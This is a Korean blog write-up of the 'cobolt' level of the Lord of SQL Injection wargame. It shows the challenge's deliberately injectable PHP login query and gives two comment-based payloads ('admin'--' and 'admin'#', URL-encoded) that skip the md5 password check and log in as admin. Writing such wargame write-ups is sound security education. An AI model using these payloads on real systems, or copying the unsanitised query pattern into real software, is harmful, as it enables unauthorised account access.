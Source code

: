 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - cobolt 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


두 번째 문제는 `cobolt`이다.  

모든 문제의 이름이 괴물(?) 몬스터(?)의 이름인 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_cobolt where id='' and pw=md5('')
-------------------------------------------------------------

<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

이번에는 `pw`를 쿼리에 넣을 때 `md5`로 해싱을 한다.  

때문에 이 전 문제처럼 pw에 인젝션을 해 문제를 풀 수 없다.  

문제를 풀기위한 조건도 좀 달라졌다.  

```php
if($result['id'] == 'admin') solve("cobolt");
```

즉, 쿼리 결과로 나온 `id`가 `admin`이어야 문제를 풀 수 있다.  

어떻게 할 지 고민하다가 `pw` 검증 루틴을 아예 무시하도록 하는 방법을 사용했다.  

나는 주석을 사용했는데, 주석은 `#`이나 `--`를 사용한다.  

이 때, `--`를 사용할 때는 뒤에 꼭 공백이 있어야 한다.  

따라서 다음과 같은 두 가지 방법으로 문제를 풀 수 있다.  

```
1. ?id=admin'--%20
2. ?id=admin'%23
```

공백과 #은 `URL Encoding`을 해서 넘겨주어야 한다.  

역시 이번에도 문제가 풀렸다.  

```php
---------------------------------------------------------------------
query : select id from prob_cobolt where id='admin'#' and pw=md5('')
---------------------------------------------------------------------

COBOLT Clear!
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

`COBOLT Clear!!`
